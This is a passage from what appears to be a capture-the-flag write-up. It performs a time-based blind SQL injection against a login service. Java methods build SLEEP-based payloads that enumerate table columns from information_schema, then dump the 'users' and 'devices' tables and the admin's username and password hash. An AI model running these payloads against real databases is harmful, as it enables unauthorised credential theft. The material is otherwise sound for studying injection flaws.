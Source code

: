 Ok, based on error message we can affirm that there is only one column on the query. Thus we could try to use `UNION` to fake a successful query:

```java
    System.out.println(PayloadRequest.sendCommand("' union all select ''#", "", "getTemp")); 
    // {"success": false, "error": "Invalid username or password"}
```

Not yet. There is something more... Step back and let's dump users table.

#### users table

First, we need to know the table structure. To facilitate the process I created a method called `blindColumnName` with two parameters: `table` and `offset`. This method will dump all columns names from `String table` parameter. 

```java
	public static String blindColumnName(String table, int offset) throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(column_name,%d,1)) from information_schema.columns where table_name='"+table+"' and table_schema = database() limit "+offset+",1)%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 100);
	}
	
	...
	PayloadRequest.blindColumnName("users",0); // id
	PayloadRequest.blindColumnName("users",1); // username
	PayloadRequest.blindColumnName("users",2); // password
	PayloadRequest.blindColumnName("users",3); // None
	
```

users(id, username, password)


#### devices table

The same process above could be applied to `devices` table.

```java
    PayloadRequest.blindColumnName("devices",0); // id
    PayloadRequest.blindColumnName("devices",1); // ip
    PayloadRequest.blindColumnName("devices",2); // None
```
devices(id, ip)

#### Dumping

Knowing the table structure we could dump the values:

```java
	public static String blindUsername(int offset) throws Exception {
	    String injection = "'||(IF((SELECT ascii(substr(username,%d,1)) from users limit "+offset+",1)%c%d,SLEEP(%d),1))#";
	    return PayloadRequest.blindString(injection, 5);
	}
	
	PayloadRequest.blindUsername(0); // admin
	PayloadRequest.blindUsername(1); // None
	
	public static String blindColumnUsersValues(String column, int length) throws Exception {
	    String injection = "'||(IF((SELECT ascii(substr("+column+",%d,1)) from users where username = 'admin')%c%d,SLEEP(%d),1))#";
	    return PayloadRequest.blindString(injection, length);
	}
	
	public static String blindPassword() throws Exception {
	    return PayloadRequest.blindColumnUsersValues("password", 32);
	}
	
```